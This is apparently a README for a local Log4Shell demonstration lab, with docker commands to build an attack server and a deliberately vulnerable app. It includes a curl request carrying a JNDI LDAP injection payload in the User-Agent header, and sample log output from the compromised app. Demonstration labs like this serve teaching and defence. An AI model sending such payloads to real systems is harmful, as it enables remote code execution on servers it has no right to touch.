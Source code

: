 
```
docker compose down
docker compose build
docker compose up
```

```
curl -v -H "User-Agent: \${jndi:ldap://attack-server:10389/cn=badcode,dc=predic8,dc=de}" http://localhost:9090
```

You have to see in the log:
```
vulnerable-app  |
vulnerable-app  | [!] YOU'VE BEEN H4CKED! [!]
vulnerable-app  | [*] Current directory: /app
vulnerable-app  | [*] Your system belongs to us now >:)
vulnerable-app  | [-] Have a nice day! muhahahaha!
vulnerable-app  |
```

##  OR
Build attack container:
```bash
cd attack-server
docker buildx build --platform linux/amd64 -t jndi-ldap-attack --load .
```
Build vulnerable container:
```bash
cd demo-vuln-app
docker buildx build --platform linux/amd64 -t demo-vuln-app --load .
```

Run attack container:
```bash
docker run -p 8080:8080 -p 10389:10389 jndi-ldap-attack
```

Run vulnerable container:
```bash
docker run -p 9090:9090 demo-vuln-app
```
